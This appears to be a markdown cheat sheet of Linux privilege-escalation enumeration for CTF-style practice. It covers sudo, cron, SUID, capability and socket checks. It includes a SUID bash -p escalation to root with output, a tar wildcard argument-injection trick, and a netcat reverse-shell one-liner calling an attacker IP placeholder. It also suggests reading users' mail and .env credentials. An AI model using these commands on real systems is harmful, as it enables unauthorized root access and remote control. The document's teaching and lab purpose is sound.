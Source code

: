 
# Linux Enumeration Techniques for PrivEsc

## Investigation of sudo privileges for the current user

```bash
sudo -l
```
## Investigation of the current user's cron jobs

```bash
crontab -l
```

## `find` command

### Finding SUID files

```bash
find / -perm -u=s -type f 2>/dev/null
```

**NOTE**: *enlightenment_sys* is a famous vulnerable SUID binary and is commonly found in CTFs.

**NOTE**: If a "bash" ELF file has SUID bit set, then run with `-p` option **to ensure that the permissions are retained**.

```bash
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash

# Running suid_bash without -p

./.suid_bash

.suid_bash-4.4$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

# Running suid_bash WITH -p

./.suid_bash -p

.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)

.suid_bash-4.4# whoami
root
```

## Methodology for exploiting an uncommon ELF file that could be run with elevated privileges.

- While enumerating a system for privilege escalation, we might stumble upon an ELF file that has the `SUID` bit set or could be run as `sudo`.

- Understanding the functionality of such a binary file takes a little extra effort than a script that has the `SUID` bit set or could be run as `sudo`.

- The first step to be performed on such an executable would be to run the command `strings` on it. **The output would contain the potential commands, directory paths, print messages etc.**, utilized by the binary which would help us get an idea about its functionality.

- The second step would be to **run the executable itself (with elevated privileges)**. The output generated during the file's exceution and its operation should give us a better understanding of the file's functionality.

- It is common to find ELF files (especially the ones that deal with some sort of automation or backup task) utilize binaries such as `tar`, `7za`, etc., as part of their intended functionality. Then we should **check if the way those binaries have been utilized facilitates PrivEsc**. For e.g. the utilization of the wildcard character `*` in a `tar` command facilitates arbitrary code execution which can be achieved by running the following commands in the working directory of the tar command followed by the excution of the vulnerable ELF file containing the `tar` command.

```bash
# Contents of shell.sh : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER'S IP> 9005 >/tmp/f

echo "" > "--checkpoint-action=exec=sh shell.sh"; echo "" > --checkpoint=1

# The above commands help the tar command to run the file shell.sh after the first file is archived.
```

## Files with capabilities

```bash
getcap -r / 2> /dev/null
```

`-r` - For recursive search

## The `.env` file

Usually present in the application's root directory (or within a sub directory). May contain very useful key-value pairs like DB username, DB password etc.


## Sockets Investigation

### ss

```bash
ss -tulpn
```

`-t` - Displays TCP sockets

`-u` - Displays UDP sockets

`-l` - Displays only listening sockets

`-p` - Shows the process using the socket

`-n` - Doesn't resolve service names


## Determining the list of user accounts on the system.

```bash
ls /home
```

This step of determining the available users accounts on the system is very important. This info would be very helpful, **especially when direct privilege escalation to the `root` account isn't possible** from the current user account. So we could **try to pivot to another user account** on the system and then attempt to escalate to root.

## Check the email inboxes of users

```bash
cd /var/mail

ls -la #Lists all the users' mailbox files (if any)
```

## Discovering unknown Hostnames

```bash
cat /etc/hosts
```

This could help us **discover unknown subdomains** for already known services/applications.

